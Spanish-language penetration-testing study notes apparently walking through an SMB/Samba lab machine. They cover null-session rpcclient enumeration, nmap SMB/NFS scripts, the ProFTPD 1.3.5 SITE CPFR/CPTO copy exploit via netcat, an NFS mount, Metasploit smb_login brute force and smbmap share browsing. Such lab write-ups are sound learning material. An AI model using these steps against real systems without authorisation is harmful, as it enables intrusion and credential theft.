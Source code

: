 - SAMBA también corre por el puerto 445, este protocolo permite la comunicación de sistemas operativos que no sean windows puedan comunicarse con el puerto SMB.

- Escaneamos la maquina victima y nos sale el puerto 445 abierto además de ==SAMBA== .

![](../Imagenes/Pasted%20image%2020241221164750.png)

- En este caso tenemos una maquina Linux con puerto 445 ==SAMBA== abierto para poder comunicarse con Sistemas operativos Windows.
- Como no tenemos credenciales podemos enumerarla con la herramienta ==RPCCLIENT==, utilizando el siguiente comando:
```
rpcclient -U "" -N (IP_VICTIMA)
```
==LO QUE VIENE DESPUES DE -U ES EL USUARIO, PERO LO DEJAMOS BASIO PORQUE NO SABEMOS CUAL ES==

![](../Imagenes/Pasted%20image%2020241221165144.png)

- Como podemos ver nos direcciona una especia de lugar para poder ingresar comandos de ==rpcclient==.
- Debemos conocer 3 comandos que nos van a servir para enumerar y obtener información:
```
srvinfo
```

![](../Imagenes/Pasted%20image%2020241221165327.png)

```
querydispinfo
```

![](../Imagenes/Pasted%20image%2020241221165401.png)

- Aquí encontramos 2 usuarios: ==ken== y ==takeshi==.
	- Ya con esto podemos hacer fuerza bruta.
```
enumdomusers
```
![[Pasted image 20241221165541.png]]
![](../Imagenes/Pasted%20image%2020241221165541.png)
- También es un comando que nos muestra usuarios, por si el comando anterior no nos arroja uno.
- Y si aun no nos arroja uno usamos el siguiente comando con ==nmap==.
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse (IP_VICTIMA)
```
- Este comando nos permite ver directorios ocultos o carpetas que poseen los puertos que tengan ==samba==.
- Tenemos otro puerto 111 Que tiene samba, si usamos el siguiente comando encontramos esto
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount (IP_VICTIMA)
```

![[Pasted image 20250210184010.png]]
- sabemos lo que tiene en la carpeta /van
- Ahora queremos copiar esa carpeta
	- Para copiarlo tenemos que meternos por el puerto 21 donde corre una version ProFTPD 1.3.5. Si investigamos nos saldra que tiene un exploit para copiar archivos.
	- Para eso usamos el siguiente comando:
```
nc (IP_VICTIMA) 21
```
![[Pasted image 20250210184352.png]]
- ==220== nos avisara que la conexión ya esta lista.
- Ahora usamos los siguietenes comandos:
![[Pasted image 20250210184530.png]]
- ==SITE CPFR== --> (COPY FROM) Selecciona el archivo o directorio que se desea copiar.
![[Pasted image 20250210184538.png]]
- ==SITE CPTO== --> (COPIAR A) Especifica la ruta de destino donde se copiará el archivo o directorio.
- Todo esto lo sacamos de un .txt de la maquina.
- Ahora que ya lo copiamos, debemos montar el directorio /var/tmp a nuestra máquina usando el siguiente comando:
```
mkdir /mnt/kenobiNFS
```
- Luego:
```
mount (IP_VICTIMA):/var /mnt/kenobiNFS
```
- Ya montada usamos el siguiente comando:
```
ls -la /mnt/kenobiNFS
```
==NFS es el protocolo utilizado para montar el sistemas de archivos remotos en Linux, se incluye en el nombre para indicar que el directorio está asociado a un montaje NFS.===


- Ahora podemos usar hydra o metasploit para hacer fuerza bruta.
- En este caso vamos a utilizar metasploit, con el siguiente sploit para ==SMB==.
```
use scanner/smb/smb_login
```
![[Pasted image 20241221165830.png]]
- Usamos show options y rellenamos todos los espacios necesarios.
- Ejecutamos.
![[Pasted image 20241221170916.png]]
- Ya tenemos la contraseña.
- Ahora que tenemos la credenciales, vamos ir enumerando recursos compartidos con ==smbmap== con el siguiente comando:
```
smbmap -u '(USUARIO)' -p (PASSWORD) -H (IP_VICTIMA)
```
![[Pasted image 20241221172027.png]]
- Como podemos ver tenemos acceso a ==ken==.
- Entonces agregamos al comando:
```
smbmap -u '(USUARIO)' -p (PASSWORD) -H (IP_VICTIMA) -r (RECURSO_COMPARTIDO)
```
![[Pasted image 20241221172213.png]]
- Y así vamos entrando y revisando información delicada.

deb http://http.kali.org/kali kali-rolling main contrib non-free non-free-firmware